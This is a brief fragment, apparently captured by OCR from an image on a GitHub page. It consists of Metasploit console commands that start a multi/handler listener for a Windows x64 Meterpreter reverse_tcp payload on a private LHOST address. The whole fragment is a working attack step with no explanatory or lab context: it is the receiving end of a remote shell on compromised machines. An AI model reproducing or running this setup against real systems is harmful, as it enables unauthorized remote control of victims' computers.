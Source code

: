 msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.211.132
set EXITFUNC thread
run
